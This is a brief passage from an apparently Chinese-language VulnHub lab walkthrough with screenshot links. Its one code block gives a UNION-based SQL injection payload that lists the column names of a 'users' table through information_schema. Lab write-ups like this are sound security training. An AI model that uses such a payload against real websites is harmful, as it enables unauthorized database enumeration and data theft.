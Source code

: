 ![image-20241207183719579](vulnhub靶场实战/image-20241207183719579.png)	

```
查看users表有哪些字段
' union select 1,2,3,group_concat(column_name,' '),5,6,7,8 from information_schema.columns where table_name="users"#
```

![image-20241207183910500](vulnhub靶场实战/image-20241207183910500.png)	
